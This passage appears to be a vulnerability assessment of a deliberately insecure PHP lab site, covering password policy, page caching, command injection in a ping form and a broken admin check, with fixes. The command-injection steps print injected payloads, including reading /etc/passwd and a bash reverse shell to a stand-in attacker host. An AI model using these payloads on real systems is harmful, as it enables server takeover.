   if (!empty($passwordErrors)) {
       $_SESSION['resetError'] = "Password errors: " . implode(", ", $passwordErrors);
       header("Location: ../index.php");
       exit();
   }
   ```

4. Add password strength meter:
   ```javascript
   function checkPasswordStrength(password) {
       let strength = 0;
       
       // Length check
       if (password.length >= 8) strength++;
       
       // Uppercase check
       if (/[A-Z]/.test(password)) strength++;
       
       // Lowercase check
       if (/[a-z]/.test(password)) strength++;
       
       // Number check
       if (/[0-9]/.test(password)) strength++;
       
       // Special character check
       if (/[^A-Za-z0-9]/.test(password)) strength++;
       
       return strength;
   }
   ```

5. Implement password history:
   ```php
   function checkPasswordHistory($userId, $newPassword) {
       $sql = "SELECT user_pwd FROM password_history 
               WHERE user_id = ? AND created_at > DATE_SUB(NOW(), INTERVAL 1 YEAR)";
       $stmt = $conn->prepare($sql);
       $stmt->bind_param("i", $userId);
       $stmt->execute();
       $result = $stmt->get_result();
       
       while ($row = $result->fetch_assoc()) {
           if (password_verify($newPassword, $row['user_pwd'])) {
               return false;
           }
       }
       return true;
   }
   ```

## Testing Results
- Screenshot 1: Registration with weak password

- Screenshot 2: Fixed code with password complexity validation

- Screenshot 3: Password strength meter implementation (user not created)


## Additional Notes
- The vulnerability affects all user accounts
- Immediate action required to enforce strong passwords
- Consider implementing:
  - Password expiration policies
  - Password history tracking
  - Account lockout after multiple failed attempts
  - Regular password audits
  - User education about password security
<div style="page-break-after: always;"></div>


## Vulnerability Type
Page Caching

## Location
The vulnerability was found in multiple locations:
1. `header.php` - Main template file
2. `auth1.php` - Authenticated content
3. `auth2.php` - File viewing functionality
4. `admin.php` - Admin interface
5. All pages including sensitive information

## Steps to Reproduce
1. Browser Cache Testing:
   - Log in to the application
   - Navigate to any authenticated page (e.g., auth1.php)
   - Log out
   - Press browser back button
   - Observe that the authenticated content is still visible from cache

2. Firefox Cache Testing:
   - Open Firefox Developer Tools (F12)
   - Go to Network tab
   - Enable "Disable Cache" option
   - Navigate through the application
   - Observe that pages are cached despite containing sensitive data

3. Cache Headers Check:
   - Use browser developer tools
   - Inspect network requests
   - Observe missing cache control headers:
     ```
     Cache-Control: no-store, no-cache, must-revalidate
     Pragma: no-cache
     Expires: 0
     ```

## Vulnerability Analysis
The vulnerability exists because:
1. No cache control headers are set:
   ```php
   // In header.php
   <!DOCTYPE html>
   <html>
   <head>
   <meta charset="utf-8">
   <title>Super Secure Site</title>
   ```

2. Sensitive content is cacheable:
   ```php
   // In auth1.php
   <h2>Auth page 1</h2>
   Only authenticated users should be able to see this Page(1).
   ```

3. Admin interface content is cacheable:
   ```php
   // In admin.php
   echo "<div class='admin-content'>
           Entry ID: <b>$id</b>
           <br>
           <form class='admin-form' method='GET'>
   ```

## Impact
- Sensitive information disclosure through browser cache
- Session data persistence after logout
- Potential for:
  - Information leakage
  - Session hijacking
  - Privacy violations
  - Compliance violations

## Mitigation Strategy
1. Implement cache control headers in header.php:
   ```php
   function setSecurityHeaders() {
       // Prevent caching of sensitive pages
       header("Cache-Control: no-store, no-cache, must-revalidate, max-age=0");
       header("Cache-Control: post-check=0, pre-check=0", false);
       header("Pragma: no-cache");
       header("Expires: Sat, 26 Jul 1997 05:00:00 GMT"); // Date in the past
       
       // Additional security headers
       header("X-Content-Type-Options: nosniff");
       header("X-Frame-Options: DENY");
       header("X-XSS-Protection: 1; mode=block");
   }
   ```

2. Add meta tags to prevent caching:
   ```php
   // In header.php
   <head>
       <meta charset="utf-8">
       <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
       <meta http-equiv="Pragma" content="no-cache">
       <meta http-equiv="Expires" content="0">
       <title>Super Secure Site</title>
   ```

3. Implement dynamic content handling:
   ```php
   function addCacheBuster() {
       // Add timestamp to prevent caching
       $timestamp = time();
       return "?v=" . $timestamp;
   }
   
   // Usage in links and forms
   <link rel="stylesheet" href="css/style.css<?php echo addCacheBuster(); ?>">
   ```

4. Add cache control for specific content types:
   ```php
   function setContentTypeHeaders($contentType) {
       switch($contentType) {
           case 'json':
               header('Content-Type: application/json');
               header('Cache-Control: no-store, no-cache, must-revalidate');
               break;
           case 'html':
               header('Content-Type: text/html');
               header('Cache-Control: no-store, no-cache, must-revalidate');
               break;
           // Add other content types as needed
       }
   }
   ```

5. Implement session-based cache control:
   ```php
   function checkSessionCache() {
       if (isset($_SESSION['u_id'])) {
           // User is logged in, prevent caching
           header("Cache-Control: no-store, no-cache, must-revalidate");
           header("Pragma: no-cache");
       }
   }
   ```

## Testing Results
- Screenshot 1: Browser back button revealing cached content

- Screenshot 2: Fixed code with cache control headers


## Additional Notes
- The vulnerability affects all pages in the application
- Immediate action required to prevent information leakage
- Consider implementing:
  - Content versioning
  - ETag handling
  - Cache busting for static resources
  - Different cache policies for public vs private content
  - Regular cache control audits
<div style="page-break-after: always;"></div>


## Vulnerability Type
Command Injection

## Location
The vulnerability was found in `auth1.php`, specifically in the ping functionality:
```php
if (isset($_REQUEST['target'])) {
    $target = $_REQUEST['target'];
    if($target){
        if (stristr(php_uname('s'), 'Windows NT')) { 
           $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>'.$cmd.'</pre>';
        } else { 
            $cmd = shell_exec( 'ping  -c 3 ' . $target );
            echo '<pre>'.$cmd.'</pre>';
        }
    }
}
```

## Steps to Reproduce
1. Basic Command Injection:
   - Log in to the application
   - Navigate to auth1.php
   - Enter the following payload in the target field:
     ```
     127.0.0.1; ls -la
     ```
   - The command will execute and display directory contents

2. Advanced Command Injection:
   - Enter a more complex payload:
     ```
     127.0.0.1 && cat /etc/passwd
     ```
   - The command will execute and display system user information

3. Reverse Shell Attempt:
   - Enter a payload to establish a reverse shell:
     ```
     127.0.0.1; bash -i >& /dev/tcp/attacker.com/4444 0>&1
     ```
   - This attempts to create a reverse shell connection

## Vulnerability Analysis
The vulnerability exists because:
1. User input is directly concatenated into shell commands:
   ```php
   $cmd = shell_exec( 'ping  ' . $target );
   ```

2. No input validation or sanitization is performed
3. The application uses shell_exec() which executes commands through the shell
4. Multiple command separators can be used to inject additional commands:
   - Semicolon (;)
   - Double ampersand (&&)
   - Pipe (|)
   - Newline (\n)

## Impact
- Arbitrary command execution on the server
- Potential for:
  - System compromise
  - Data exfiltration
  - File system access
  - Network reconnaissance
  - Reverse shell establishment
  - Complete server takeover

## Mitigation Strategy

### 1. Easy Fix - Using escapeshellcmd()
```php
function securePing($target) {
    // Sanitize the input
    $target = escapeshellcmd($target);
    
    // Validate IP address format
    if (!filter_var($target, FILTER_VALIDATE_IP)) {
        return "Invalid IP address";
    }
    
    // Execute ping command safely
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec('ping ' . $target);
    } else {
        $cmd = shell_exec('ping -c 3 ' . $target);
    }
    
    return $cmd;
}

// Usage
if (isset($_REQUEST['target'])) {
    $target = $_REQUEST['target'];
    if ($target) {
        $result = securePing($target);
        echo '<pre>' . cleanChars($result) . '</pre>';
    }
}
```

### 2. Custom Function Approach
```php
class CommandExecutor {
    private $allowedCommands = ['ping'];
    private $allowedOptions = ['-c', '-n', '-w'];
    private $maxLength = 15;
    
    public function executePing($target) {
        // Validate input
        if (!$this->validateInput($target)) {
            return "Invalid input: Please enter a valid IP address (e.g., 192.168.1.1) or hostname (e.g., example.com). Input must not contain dangerous characters.";
        }
        
        // Build command safely
        $command = $this->buildPingCommand($target);
        
        // Execute command
        return $this->executeCommand($command);
    }
    
    private function validateInput($input) {
        // Check length
        if (strlen($input) > $this->maxLength) {
            return false;
        }
        
        // Check for command injection characters
        $dangerousChars = [';', '&', '|', '`', '$', '>', '<', '*', '?', '~', '!', '#', '%', '^', '=', '+', '[', ']', '{', '}', '\\'];
        foreach ($dangerousChars as $char) {
            if (strpos($input, $char) !== false) {
                return false;
            }
        }
        
        // Validate IP address or hostname format
        if (!filter_var($input, FILTER_VALIDATE_IP) && !$this->isValidHostname($input)) {
            return false;
        }
        
        return true;
    }
    
    private function isValidHostname($hostname) {
        // Basic hostname validation
        // Allow letters, numbers, dots, and hyphens
        // Must start and end with a letter or number
        // Each segment must be between 1-63 characters
        // TLD must be at least 2 characters
        return (bool)preg_match('/^([a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,}$/', $hostname);
    }
    
    private function buildPingCommand($target) {
        $command = 'ping';
        
        // Add platform-specific options
        if (stristr(php_uname('s'), 'Windows NT')) {
            $command .= ' ' . escapeshellarg($target);
        } else {
            $command .= ' -c 3 ' . escapeshellarg($target);
        }
        
        return $command;
    }
    
    private function executeCommand($command) {
        // Execute command and capture output
        $output = [];
        $returnVar = 0;
        exec($command, $output, $returnVar);
        
        // Check for errors
        if ($returnVar !== 0) {
            return "Command execution failed";
        }
        
        return implode("\n", $output);
    }
}

// Usage
if (isset($_REQUEST['target'])) {
    $target = $_REQUEST['target'];
    if ($target) {
        $executor = new CommandExecutor();
        $result = $executor->executePing($target);
        echo '<pre>' . cleanChars($result) . '</pre>';
    }
}
```

## Testing Results
- Screenshot 1: Command injection attack successful

- Screenshot 2: Fixed code with custom CommandExecutor class

- Screenshot 3: Payload fails


## Additional Notes
- The vulnerability affects the ping functionality in auth1.php
- Immediate action required to prevent command injection
- The enhanced implementation supports both IP addresses and hostnames while maintaining security
- Consider implementing additional security measures:
  - Rate limiting for command execution
  - Logging of all command executions
  - Regular security audits
  - System hardening
<div style="page-break-after: always;"></div>


## Vulnerability Type
Improper Access Control

## Location
The vulnerability was found in the admin.php file, which allows non-admin users to access the admin interface.

## Steps to Reproduce
1. Log in as a regular user (non-admin)
2. Navigate directly to admin.php
3. Observe that the admin page is accessible despite not having admin privileges

## Vulnerability Analysis
The vulnerability exists because:
1. The access control check in admin.php has an empty if statement:
   ```php
   //Validation here to prevent normal user from accessing directly
   if (!isset($_SESSION['u_id']) || $_SESSION['u_admin'] == 0) {
       // This block is empty! No redirection or access denial
   } else {
       $user_id = $_SESSION['u_id'];
       $user_uid = $_SESSION['u_uid'];
   }
   ```
2. No redirection or access denial is implemented for unauthorized users
3. The application continues to load the admin page content regardless of user privileges

## Impact
- Unauthorized access to admin functionality
- Potential for:
  - Privilege escalation
  - Information disclosure
  - Unauthorized actions
  - Security policy violations

## Mitigation Strategy
1. Implement proper access control with redirection:
   ```php
   //Validation here to prevent normal user from accessing directly
   if (!isset($_SESSION['u_id']) || $_SESSION['u_admin'] == 0) {
       // Redirect non-admin users to index page
       $_SESSION['error'] = "Access denied. Admin privileges required.";
       header("Location: index.php");
       exit();
   } else {
       $user_id = $_SESSION['u_id'];
       $user_uid = $_SESSION['u_uid'];
   }
   ```

2. Add user feedback for access denial
3. Ensure proper session validation throughout the application
4. Implement role-based access control (RBAC) for all sensitive pages


## Additional Notes
- The vulnerability affects the admin interface
- Immediate action required to prevent unauthorized access
- Consider implementing additional security measures:
  - Centralized access control mechanism
  - Role-based permissions system
  - Audit logging for access attempts
  - Regular security reviews of access controls


